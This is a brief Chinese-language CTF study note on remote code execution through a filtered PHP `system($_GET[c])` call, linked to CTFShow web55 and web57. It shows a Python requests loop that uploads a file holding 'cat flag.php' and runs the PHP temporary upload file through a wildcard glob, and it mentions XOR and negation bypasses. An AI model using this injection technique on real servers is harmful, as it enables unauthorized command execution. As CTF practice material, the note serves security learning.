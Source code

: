 tags:: CTF/RCE

- # 参考
	- [[CTF/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	  r = requests.post(
	      url,
	      params = {
	          "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	      },
	      files={
	          "file":("a.txt", "cat flag.php")
	      }
	  )
	  if r.text:
	      break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
	- {{embed ((63bc02d6-35cc-4fb7-9f4e-21386299fd6f))}}
- # 方式三
	- [[CTF/WP/CTFShow/web57]]